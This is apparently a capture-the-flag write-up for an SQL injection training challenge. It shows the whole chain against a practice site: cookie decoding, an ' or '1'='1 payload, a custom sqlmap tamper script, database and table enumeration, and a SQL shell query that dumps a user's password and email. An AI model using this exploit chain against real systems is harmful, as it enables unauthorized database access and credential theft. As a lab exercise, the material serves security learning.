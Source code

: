 # Challenge #2 - Poema Reading club 6

## Objectives

- You want to exploit an Error based SQL injection manually in order to dump data from the database. You will have to first determine the remote DB version, current user and selected database. Then proceed to schema enumeration and data dump
- Find out Ruud password in the database

## Hints

- MySQL
- Cookie Manipulation

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine if a SQL injection is of type "blind" or "error based"
- How to extract information from a database using error based techniques and only a web browser

## Steps

The vulnerable point in on the cookie userchl2_info. Open any page and look on burp suite for the cookie.

Target url:
http://2.challenge.sqli.site/index.php

```
userchl2_info=%7B%22last_book%22%3A%22MQ%3D%3D%22%2C%22userchl2%22%3A%22%22%7D
```

Decoding the text from URL to see it in clean text.

```
userchl2_info={"last_book":"MQ==","userchl2":""}
```

Decoding MQ== from base64 you will get the number 1.

Replace the cookie for the payload below.

```
userchl2_info={"last_book":"' or '1'='1","userchl2":""}
```

Now, intead of sending 1, you will send "' or '1'='1" as last book.

Observe that the return message now has an mysql error message.

```
mysql_fetch_assoc() expects parameter 1 to be resource, boolean given in <b>/var/www/challenge.sqli.site/2/sidebar.php
```

To send this payload to SQLMap we will need a special tamper to convert the payload to base64, rebuild the cookie json and url encode it.

Create a file tamper.py with the code below.

```
#!/usr/bin/env python
import base64
import urllib.parse

def tamper(payload, **kwargs):
    params = '{"last_book":"%s","userchl2":""}' % base64.b64encode(payload.encode()).decode()
    data = urllib.parse.quote_plus(params)
    return data
```

Create an *empty* file __init__.py in the same directory of the tamper.py

In the command below, replace the session cookie sid and send to SQLMap.

```
sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T
```

After a few momments SQLMap will return the vulnerable parameter.

```
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 977 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: Cookie: sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=(CASE WHEN (5925=5925) THEN SLEEP(5) ELSE 5925 END)
---
```

List all databases.

```
sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T --dbs

available databases [2]:
[*] databasechl2
[*] information_schema
```

List all tables from databasechl2.

```
sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T -D databasechl2 --tables

Database: databasechl2
[2 tables]
+--------------+
| books        |
| club_members |
+--------------+
```

This SQL injection is very slow, so I choose enter on the os-shell and send a SQL command to retrieve only the Ruud user.

```
sqlmap -u "http://2.challenge.sqli.site/index.php" --cookie="sid=e75aa278-1b4e-11ec-b0bf-710c194eec7f; userchl2_info=*" --skip='PHPSESSID' --batch  --thread 10  --dbms='mysql' --level=3 --tamper tamper.py --technique T --sql-shell

sql-shell> select * from databasechl2.club_members where name = 'Ruud';

retrieved: 12
retrieved: Ruud
retrieved: HOO93MSH6EK
retrieved: feugiat@nonsollicitudin.org
retrieved: 73544
```